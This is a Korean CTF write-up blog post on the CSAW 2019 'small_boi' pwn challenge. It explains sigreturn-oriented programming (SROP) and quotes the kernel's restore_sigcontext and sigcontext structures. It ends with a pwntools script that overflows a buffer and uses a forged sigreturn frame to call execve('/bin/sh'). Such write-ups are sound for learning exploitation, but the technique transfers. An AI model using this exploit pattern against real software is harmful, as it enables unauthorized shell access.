 ```yaml
---
emoji: 🍗
title: CSAW 2019 small_boi 취약점 분석
author: Zer0Luck
date: '2020-09-18'
categories: CTF
tags: pwn CSAW CTF
---
```


# 취약점 분석

> SROP 
> - 리눅스에서는 시그널이 들어오게 되면 커널 모드에서 처리한다.
> - 커널 모드에서 유저모드로 들어오는 과정에서 유저의 스택에 레지스터 정보들을 저장해 놓는다.
> - `rt_sigreturn` 은 이렇게 저장해놓은 정보들을 다시 돌려놓을 때 사용된다.
> 
> - 공격자가 `rt_sigreturn` 시스템 콜을 호출할 수 있고 스택을 조작할 수 있다면 모든 레지스터와 > 세그먼트를 조작할 수 있다.
> - `rt_sigreturn` 시스템 콜을 사용하여 익스폴로잇 하는 기법을 SigReturn Oriented Programming > (SROP)라고 한다.

## restore_sigcontext

```cpp
static int restore_sigcontext(struct pt_regs *regs,
			      struct sigcontext __user *sc,
			      unsigned long uc_flags)
{
	unsigned long buf_val;
	void __user *buf;
	unsigned int tmpflags;
	unsigned int err = 0;
	/* Always make any pending restarted system calls return -EINTR */
	current->restart_block.fn = do_no_restart_syscall;
	get_user_try {
#ifdef CONFIG_X86_32
		set_user_gs(regs, GET_SEG(gs));
		COPY_SEG(fs);
		COPY_SEG(es);
		COPY_SEG(ds);
#endif /* CONFIG_X86_32 */
		COPY(di); COPY(si); COPY(bp); COPY(sp); COPY(bx);
		COPY(dx); COPY(cx); COPY(ip); COPY(ax);
#ifdef CONFIG_X86_64
		COPY(r8);
		COPY(r9);
		COPY(r10);
		COPY(r11);
		COPY(r12);
		COPY(r13);
		COPY(r14);
		COPY(r15);
         ...
}
```

- `COPY`, `COPY_SEG` 매크로를 사용하여 레지스터및 세그먼트를 복원한다.

## sigcontext-32bit

```cpp
struct sigcontext
{
  unsigned short gs, gsh;
  unsigned short fs, fsh;
  unsigned short es, esh;
  unsigned short ds, dsh;
  unsigned long edi;
  unsigned long esi;
  unsigned long ebp;
  unsigned long esp;
  unsigned long ebx;
  unsigned long edx;
  unsigned long ecx;
  unsigned long eax;
  unsigned long trapno;
  unsigned long err;
  unsigned long eip;
  unsigned short cs, __csh;
  unsigned long eflags;
  unsigned long esp_at_signal;
  unsigned short ss, __ssh;
  struct _fpstate * fpstate;
  unsigned long oldmask;
  unsigned long cr2;
};
```

## sigcontext-64bit

```cpp
struct sigcontext
{
  __uint64_t r8;
  __uint64_t r9;
  __uint64_t r10;
  __uint64_t r11;
  __uint64_t r12;
  __uint64_t r13;
  __uint64_t r14;
  __uint64_t r15;
  __uint64_t rdi;
  __uint64_t rsi;
  __uint64_t rbp;
  __uint64_t rbx;
  __uint64_t rdx;
  __uint64_t rax;
  __uint64_t rcx;
  __uint64_t rsp;
  __uint64_t rip;
  __uint64_t eflags;
  unsigned short cs;
  unsigned short gs;
  unsigned short fs;
  unsigned short pad0;
  uint64_t err;
  __uint64_t trapno;
  __uint64_t oldmask;
  __uint64_t cr2;
  extension union
    {
      struct _fpstate * fpstate;
      __uint64_t __fpstate_word;
    };
  __uint64_t __reserved1 [8];
};
```

- 해당 `sigcontext` 구조체를 바탕으로 SROP 기법으 이용하여 공격을 진행할 수 있다.


## 문제 small_boi.c

```cpp
/* I wonder what you have to do with this sigreturn gadget */
volatile void one_true_gadget(void)
{
    asm("mov $0xf, %eax;" // sigreturn
        "syscall;");
}

asm("poprax:"
    "pop %rax;"
    "ret;");

char *useful_string = "/bin/sh";
char useful_byte = 'i';

int main()
{
    char buf[32];

    asm("mov %0, %%rsi;"
        :
        : "r"(buf)
        : "%rsi");
    asm("xor %rax, %rax;"
        "xor %rdi, %rdi;"
        "mov $0x200, %rdx;"
        "syscall;");
    return 0;
}

void _start()
{
    main();
    asm("xor %rdi, %rax;"
        "mov $60, %rax;"
        "syscall;");
}
```

- 문제 바이너리를 분석해 보면 `sigreturn` , `/bin/sh`, `syscall` 등 익스를 하기에 필요한 명령들이 있는 것을 확인할 수 있으며
- 카니리 보호 기법이 걸려 있지 않아 버퍼 오버플로우를 발생시켜 return 주소를 sigreturn call 하여 SROP를 할 수 있다.
- main 함수에서 read 함수를 바탕으로 0x200 바이트를 입력 받기 때문에 버퍼 오버플로우가 발생한다.

## SROP

```cpp
binshell = 0x4001ca
si_return = 0x400180
syscall = 0x400185

frame = SigreturnFrame()

frame.rax = constants.SYS_execve
frame.rdi = binshell
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall

payload = p8(0x90)*40+p64(si_return)+str(frame)
sl(payload)
irt()
```

- SROP를 하기 위해서는 구조체의 값을 일일이 다 맞쳐서 짜야 한다는 점이 있지만 pwntools의 도구를 사용하여 손 쉽게 해당 레지스터에 필요한 값을 줄 수 가 있다.
- 우리는 execve 시스템 콜을 사용하여 /bin/sh 주소를 인자로 사용하여 쉘을 획득하면 된다.

![./0.png](./0.png)

```toc
```
